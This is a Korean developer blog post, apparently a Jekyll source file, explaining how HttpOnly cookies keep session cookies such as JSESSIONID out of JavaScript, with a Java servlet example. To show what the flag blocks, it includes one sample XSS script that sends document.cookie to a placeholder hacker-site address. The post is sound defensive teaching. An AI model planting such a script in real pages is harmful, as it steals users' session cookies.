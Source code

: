 ```yaml
---
layout:     post
title:      "[CS] HTTP Only Cookie 사용하기"
subtitle:   "\"Use HTTP Only Cookie\""
date:       2024-04-11 19:00:00
author:     "JacksonJang"
post_assets: "/assets/posts/2024-04-11"
catalog: true
categories:
    - CS
tags:
    - Frontend
    - Backend
    - CS
---
```

> HttpOnly를 사용하면, XSS 공격을 예방할 수 있습니다.

우리가 인터넷을 사용하다 보면 HTTP 및 HTTPS 통신을 자주 하게 됩니다.
그러다 보면 로그인이나 상품을 구매할 수도 있고 다양한 활동들을 하게 되는데, 이때 사용되는 것이 **쿠키**입니다.

### 쿠키(Cookie)
**쿠키(Cookie)**는 세션 및 기타 정보를 관리하기 위해 사용합니다.
이런 쿠키가 존재하는 이유는 사용자의 유효성 검사를 위해서 주로 사용되는데, 톰캣을 사용한다면 주로 볼 수 있는 쿠키는 **JSESSIONID** 입니다.

> JSESSIONID : 톰캣 컨테이너에서 세션을 유지하기 위해 발급하는 키

## HTTP Only
<img width="600px" src="{{ page.post_assets }}/httpOnly_noneHttpOnly.png" />
<br />
위 사진처럼 httpOnly는 HttpOnly에 체크되어 있고, noneHttpOnly는 HttpOnly가 체크되어 있지 않습니다.

<img width="600px" src="{{ page.post_assets }}/console.png" />
위 사진은 `document.cookie`를 했을 때, 나온 결과 화면입니다.
<br />
보이는 대로 HttpOnly로 설정된 쿠키는 javascript에서 노출되지 않습니다.(단, 개발자 도구를 통해서는 볼 수 있습니다.)

따라서, 다음과 같은 XSS 공격을 통해 해커가 쿠키 값을 가져올 수 없습니다.
```js
<script> 
location.href = '해커사이트주소?cookie=' + document.cookie 
</script>
```

## Java 서버에서 처리
```java
 public Map index(HttpServletRequest request, HttpServletResponse response) {
    Map<String, Object> map = new HashMap();

    Cookie noneHttpOnly = new Cookie("noneHttpOnly", "test");
    Cookie httpOnly = new Cookie("httpOnly", "test");
    httpOnly.setHttpOnly(true);
    response.addCookie(noneHttpOnly);
    response.addCookie(httpOnly);

    map.put("cookie", request.getCookies());

    return map;
}
```
위와 같은 방식으로 `noneHttpOnly` 쿠키와 `httpOnly` 쿠키를 추가했습니다.

## github 예시
[https://github.com/JacksonJang/httpOnlyExample.git](https://github.com/JacksonJang/httpOnlyExample.git)
